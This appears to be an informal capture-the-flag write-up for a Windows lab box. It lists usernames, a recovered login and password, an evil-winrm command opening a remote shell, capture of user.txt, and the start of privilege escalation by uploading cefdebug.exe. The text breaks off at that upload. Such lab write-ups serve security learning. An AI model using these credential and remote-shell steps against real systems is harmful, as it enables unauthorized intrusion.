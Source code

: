 svc-sql
sbauer
okent
ckane
kpage
james
cyork
rmartin
zac
jorden
alyx
ilee
nbourne
zpowers
#USER_END
# NOW probably i can try crackmapexec for valid login huh !!!
i sucessfully got valid login 
MEGACORP\\tushikikatomo
password - finance1 
now i need to get a shell for windows i always use evil winrm -   
##usage 
root@softwareuser:~/Desktop/multimaster# evil-winrm -i 10.10.10.179 -u tushikikatomo -p finance1 

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\alcibiades\Documents> cd ../
*Evil-WinRM* PS C:\Users\alcibiades> cd Desktop 
*Evil-WinRM* PS C:\Users\alcibiades\Desktop> cat user.txt 
*Evil-WinRM* PS C:\Users\alcibiades\Desktop> 
#usage### 
done now i have user.txt 
---------------------------------
-------------------------------

# root part - 
Now i got a nudge from forums and my friends 
(link)https://github.com/taviso/cefdebug/releases/tag/v0.2
they said me to use cefdebug and nc to execute command locally then i did 
i created a dir in c:/
-------------------------------------------------------------------------------------------------------
*Evil-WinRM* PS C:\temo> upload cefdebug.exe
Info: Uploading cefdebug.exe to C:\temo\cefdebug.exe

                                                             
Data: 346112 bytes of 346112 bytes copied

Info: Upload successful!
